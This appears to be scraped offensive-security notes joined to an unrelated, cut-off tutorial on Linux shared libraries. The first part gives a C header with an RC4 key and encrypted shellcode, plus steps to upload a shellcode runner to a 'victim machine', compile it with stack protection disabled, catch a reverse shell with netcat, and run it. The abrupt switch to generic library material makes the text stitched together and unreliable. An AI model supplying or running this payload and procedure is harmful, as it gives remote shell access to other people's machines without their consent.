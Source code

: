 Example encrypted_payload.h
```c
#ifndef BUFFER_H
#define BUFFER_H

unsigned char key[] = "B@$7P.omqDXyKIfw";
unsigned char buf[] = 
"\x8b\x7d\x92\xee\x3a\xb6\x02\xc3\x24\x6b\x80\x05\x8d\x4c\xe1\x18"
"\x2a\x9f\xde\x8c\x0e\x91\x77\x9f\x92\x51\xff\x7f\x76\xf3\x52\xb7"
"\xdd\x48\x25\x64\x46\x37\x14\x15\x04\x4d\xf2\xe5\x85\xc3\xcf\x18"
"\xe8\xe6\xbc\xed\x42\xe5\x06\x0d\x15\xef\xea\x6b\xff\x74\xc8\xb1"
"\x25\x40\xe8\x90\xc8\x42\x3b\x3b\x66\x50";

#define BUF_SIZE sizeof(buf)
#endif

```

- ShellCodeRC4Runner.c
	- upload both ShellCodeRC4Runner.c and encrypted_payload.h to the victim machine
	- compile `gcc  -fno-stack-protector -z execstack -g -o runner ShellCodeRC4Runner.c`
	- configure netcat or other software to catch the reverse shell
	- `./runner` on the victim machine

*Note:* this doesn't run in the background without sending to the background.


Shared libraries in Linux are a way to share code among multiple programs, reducing the amount of duplicated code and saving system resources. They provide a mechanism for executable files to use functions and other resources that are stored in external files, which are loaded into memory when the program runs. Here are some key concepts and details about shared libraries in Linux:

### Key Concepts

1. **Shared Library Files**:
   - Shared libraries are typically files with `.so` (shared object) extensions, e.g., `libexample.so`.

2. **Dynamic Linking**:
   - Programs using shared libraries are dynamically linked. This means that the linking of the shared library occurs at runtime rather than at compile time.

3. **Advantages**:
   - **Reduced Memory Usage**: Multiple programs can share a single copy of the library code in memory.
   - **Modularity**: Libraries can be updated independently of the applications that use them.
   - **Smaller Executable Size**: Executables are smaller because they do not need to contain library code.

### Creating and Using Shared Libraries

#### Creating a Shared Library

1. **Write the Source Code**:
   - Create source files for the functions you want to include in the library.
